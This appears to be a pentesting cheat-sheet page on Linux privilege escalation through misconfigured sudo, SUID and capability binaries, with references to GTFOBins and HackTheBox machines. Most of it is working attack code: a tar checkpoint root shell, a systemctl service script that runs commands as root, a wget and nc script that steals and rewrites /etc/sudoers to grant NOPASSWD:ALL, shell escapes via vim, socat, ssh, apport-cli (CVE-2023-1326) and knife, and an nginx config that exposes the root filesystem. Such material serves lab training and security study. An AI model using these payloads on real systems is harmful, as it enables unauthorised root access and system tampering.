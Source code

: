 # GTFOBins

<div class="row row-cols-lg-2"><div>

**[GTFOBins](https://gtfobins.github.io/)** (9.5k ⭐) a.k.a. "Get The Fuck Out" is a list of way to exploit binaries such as `sed`/`tar`/... to get root.

Common use cases are:

* [Binary was given SUID/GUID permissions](perms.md#suidguid-bit)
* [Binary was given capabilities](perms.md#capabilities)
* [Binary was delegate sudo permission](sudo.md#administrative-privileges)
* ...

Note that not every exploit may pop a shell. Some only allow you to edit some files, which may help getting root.
</div><div>

**Example** 🔥

You can only run `tar` using `sudo`. Run the command below from [GTFOBins](https://gtfobins.github.io/gtfobins/tar/#sudo), and you will get a root shell.

```ps
$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

➡️ You can use [GTFOBLookup](https://github.com/nccgroup/GTFOBLookup) (0.2k ⭐) for offline browsing.

➡️ You may need/want to create a [root bash](rootbash.md).
</div></div>

<hr class="sep-both">

## ⚡ SUID `systemctl` script

Description: this script makes it easier to run several commands using `systemctl`.

<div class="row row-cols-md-2 mt-4"><div>

Create a file `script.sh` with the contents below

```ps
TF=$(mktemp).service
echo "[Service]
Type=oneshot
ExecStart=/bin/sh -c '$@ > /tmp/output'
[Install]
WantedBy=multi-user.target" > $TF
systemctl -f link $TF
systemctl -f enable --now $TF
cat /tmp/output
```
</div><div>

Calls

```ps
$ chmod +x script.sh
$ ./script.sh id
$ ./script.sh ls -laR /root
```
</div></div>

<hr class="sep-both">

## ⚡ SUDO `wget` script

Description: this script automate privilege escalation using `wget`.

<div class="row row-cols-lg-2"><div class="align-self-center">

It's quite easy to do it manually, but you need two machines (ex: your VM and the target). This script is complex because everything is done locally, without interacting with your VM!

* Will use `wget` to fetch `/etc/sudoers` and `nc` to grab the result

* Then, it will replace the line giving access to `wget` and give you the permission to run every command as root

* Then, we will start a python web server, and use `wget` with `-o` to replace our new sudo file with the tampered one.

* Finally, the script run `sudo bash` and open your shell as root

⚠️ The script may mess with your [sudoers](/operating-systems/linux/env/files/index.md#etcsudoers) file if something goes wrong. I destroyed my VM 7 times before managing to make the script work 🌳. If you understand the commands used in the script, use them one by one, and check the tampered sudoers file (output) BEFORE overriding the current one.
</div><div>

```bash!
file=/etc/sudoers
port=4444
# todo: use mktemp
output=stolenfile

# Working in /tmp
cd /tmp
# -d and -q 0 to quit when connection is closed
nc -dlnp $port -q 0 > $output &
# -q = quiet, and -T 1 = close after one second
sudo wget -q --post-file=$file localhost:$port -T 1
# remove the HTTP headers
sed -i '1,9d' $output
# replace the command with find
sed -i "s/\($(whoami).*\)/$(whoami)  ALL=(ALL) NOPASSWD:ALL/g" $output
# create a web server
python3 -m http.server $port &
pid=$(echo $!)
sleep 1 # let the webserver start
# get the file then kill the webserver
# replace /etc/sudoers
sudo wget -q localhost:$port/$output -O $file && kill $pid
# open the root shell
sudo bash
```
</div></div>

<hr class="sep-both">

## Random Payloads

<div class="row row-cols-lg-2"><div>

If we are allowed to run a command as sudo:

* Common commands

```ps
$ sudo vim -c ':!/bin/sh'
$ sudo socat stdin exec:/bin/bash
$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

* [apport-cli](https://manpages.ubuntu.com/manpages/focal/en/man1/apport-cli.1.html) 2.26.0 and earlier has a vulnerability ([CVE-2023-1326](https://nvd.nist.gov/vuln/detail/CVE-2023-1326)) 

[![devvortex](../../../../_badges/htb-p/devvortex.svg)](https://app.hackthebox.com/machines/Devvortex)

```ps
$ sudo /usr/bin/apport-cli --file-bug
> 1
> 2
> F # any key
> V # view report (open less)
:!/bin/bash
```

* `/usr/bin/systemctl status xxx.service`

[![attacking_common_applications](../../../../_badges/htb/attacking_common_applications.svg)](https://academy.hackthebox.com/course/preview/attacking-common-applications)
[![sau](../../../../_badges/htb-p/sau.svg)](https://app.hackthebox.com/machines/Sau)

While it may be secure, if a reader is opened, such as `less`, it may be leveraged to run commands e.g. using `!/bin/bash` for `less`.
</div><div>

* `/usr/bin/knife`: [knife](http://manpages.ubuntu.com/manpages/bionic/man1/knife.1.html) can be exploited in many ways

[![knife](../../../../_badges/htb-p/knife.svg)](https://app.hackthebox.com/machines/Knife)

```ps
$ sudo knife environment edit _default -e vim # -> sudo vim
$ sudo knife environment edit _default -e rootbash.sh
$ sudo knife exec --exec "exec '/bin/sh -i'"
$ echo -n 'exec "/bin/bash -i"' > config.rb
$ sudo knife user list -c config.rb
```

* `nginx` can be used to read files. It may also be used to write files using `dav_methods PUT;`. For instance, adding an entry in authorized keys or sudoers.

[![broker](../../../../_badges/htb-p/broker.svg)](https://app.hackthebox.com/machines/Broker)

```shell!
$ cat $(pwd)/test.conf
user root;
events {
    worker_connections 768;
}
http {
    server {
       listen 80;
        server_name  pwned.test;

        location / {
            root /;
            autoindex on; 
        }
    }
}
$ sudo nginx -s stop
$ sudo nginx -c $(pwd)/test.conf
```
</div></div>
